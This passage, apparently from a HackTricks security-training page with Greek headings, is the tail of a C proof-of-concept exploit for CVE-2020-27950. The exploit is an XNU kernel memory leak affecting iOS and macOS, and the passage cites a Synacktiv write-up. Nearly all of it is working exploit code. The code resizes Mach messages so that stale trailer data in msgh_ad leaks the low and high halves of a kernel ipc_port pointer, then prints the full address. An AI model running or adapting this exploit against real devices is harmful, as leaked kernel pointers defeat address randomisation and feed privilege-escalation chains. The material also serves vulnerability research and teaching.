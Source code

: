 ```c

// Leak low 32 bits from msgh_ad (stale data → expected to be the low dword of an ipc_port*)
sent_port_address |= (uint32_t)trailer->msgh_ad;

/*
* Step E: Repeat the A→D cycle but now shift by another +4 bytes.
*         This moves the overlap window so `msgh_ad` captures the high 4 bytes.
*/
printf("[*] Sending message 3\n");
mach_msg(&big_message->header, MACH_SEND_MSG, big_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);

printf("[*] Discarding message 3\n");
mach_msg((mach_msg_header_t *)0, MACH_RCV_MSG, 0, 0, port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);

// add another +4 to msgh_size → total +8 shift from the baseline
small_message->header.msgh_size = small_size + sizeof(uint32_t)*2;
printf("[*] Sending message 4\n");
mach_msg(&small_message->header,
MACH_SEND_MSG,
small_size + sizeof(uint32_t)*2,
0,
MACH_PORT_NULL,
MACH_MSG_TIMEOUT_NONE,
MACH_PORT_NULL);

memset(buffer, 0, big_size + MAX_TRAILER_SIZE);
printf("[*] Reading back message 4\n");
mach_msg((mach_msg_header_t *)buffer,
MACH_RCV_MSG | MACH_RCV_TRAILER_ELEMENTS(5),
0,
small_size + sizeof(uint32_t)*2 + MAX_TRAILER_SIZE,
port,
MACH_MSG_TIMEOUT_NONE,
MACH_PORT_NULL);

trailer = (mach_msg_mac_trailer_t *)(buffer + small_size + sizeof(uint32_t)*2);

// Combine the high 32 bits, reconstructing the full 64-bit kernel pointer
sent_port_address |= ((uintptr_t)trailer->msgh_ad) << 32;

printf("[+] Port %x has address %lX\n", sent_port, sent_port_address);

return 0;
}
```
## Αναφορές

- [Άρθρο στο blog της Synacktiv](https://www.synacktiv.com/en/publications/ios-1-day-hunting-uncovering-and-exploiting-cve-2020-27950-kernel-memory-leak)


{{#include ../../banners/hacktricks-training.md}}
